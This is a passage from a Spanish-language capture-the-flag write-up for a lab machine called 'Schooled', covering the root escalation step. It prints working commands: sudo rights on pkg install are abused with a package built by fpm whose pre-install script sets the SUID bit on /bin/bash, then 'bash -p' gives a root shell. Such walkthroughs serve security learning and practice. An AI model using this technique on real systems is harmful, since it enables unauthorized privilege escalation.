 # Part 5: Escalando a root

Pero podemos hacer ssh -> ```ssh jamie@10.10.10.234```
```console
jamie@Schooled:/home $ sudo -l 
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```
En [gfobins](https://gtfobins.github.io/gtfobins/pkg/) nos dicen que con un programa llamado fpm realicemos una serie de comandos, como aqui no está se hace en la
maquina atacante (ya que generan un archivo que luego se puede subir a esta)
```console
└─$ sudo gem install fpm
└─$ TF=$(mktemp -d)
└─$ echo 'chmod u+s /bin/bash' > $TF/x.sh
└─$ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
jamie@Schooled:/tmp $ sudo /usr/sbin/pkg install -y --no-repo-update ./x-1.0.txz
jamie@Schooled:/tmp $ bash -p
[jamie@Schooled /tmp]# whoami
root
```